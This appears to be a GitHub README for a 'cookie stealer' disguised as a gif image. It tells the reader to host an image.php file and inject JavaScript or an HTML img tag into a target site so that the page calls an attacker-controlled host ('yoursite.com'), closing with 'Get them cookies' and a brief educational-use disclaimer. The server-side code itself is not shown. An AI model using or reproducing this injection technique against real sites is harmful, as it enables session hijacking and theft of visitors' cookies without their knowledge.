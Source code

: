 # Cookie Stealer

A cookie stealer disguised as a gif image.

## Hot to use

Host the *image.php* file wherever you want.

Inject the code on the target

```javascript
let img = new Image();
img.src = "http://yoursite.com/image.php";
document.body.appendChild(img);
```
or in plain html

```html
<img src="http://yoursite.com/image.php">
```

Get them cookies.

## Disclaimer

I'm not responsible for your actions. The code provided here is for educational purpose only. If you find a web site with code injection vulnerability, inform them.
